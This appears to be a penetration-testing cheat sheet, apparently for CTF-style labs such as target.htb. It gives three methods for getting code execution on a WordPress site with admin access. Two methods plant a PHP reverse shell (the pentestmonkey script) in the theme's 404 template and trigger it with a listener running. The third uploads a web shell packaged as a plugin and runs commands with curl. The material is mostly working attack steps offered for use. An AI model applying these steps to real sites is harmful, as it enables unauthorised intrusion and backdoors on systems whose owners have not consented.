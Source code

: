 - - -
## Method 1 : 

🎃️ Modifying a php from the theme used (admin credentials needed)
🦴️ Appearance ➡️ Editor ➡️ 404 Template ( **at the right** )
👹️ Change the content for a php shell

Use this Reverse shell : [shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

Start a listener and Now provoke the Shell  : 
```http
http://target.htb/wp-content/themes/twentytwelve/404.php
```

- - -
## Method 2 : 

💥️ Go to :
				💢️ “**Tools**” 👉️ “**Theme File Editor**”.
💥️ Switch to Twenty Tweny one theme.
💥️ Click on 404 Template.
💥️ Don't remove every-thing just add your php shell inside it but remove your ``<?php** and **?>**.``
💥️ Save it.
💥️ Set-up a listner.
💥️ GO to :
				💢️ “**Appereance**” 👉️ “**Themes** ”.
💥️ Activate the "**Twenty Twenty one**" Theme.
💥️ Now visit any page that does not exist and have a shell.

- - -
## Method 3 : 

```sh
cp /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php .
```

```sh
zip plugin-shell.zip plugin-shell.php
```

Upload plugin-shell.zip (Plugins > Add New)
and install it (Upload Plugin > Browse... > Install Now)
but do not activate! Now you can access the web shell:

```sh
curl 'http://10.10.13.37/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami'
```

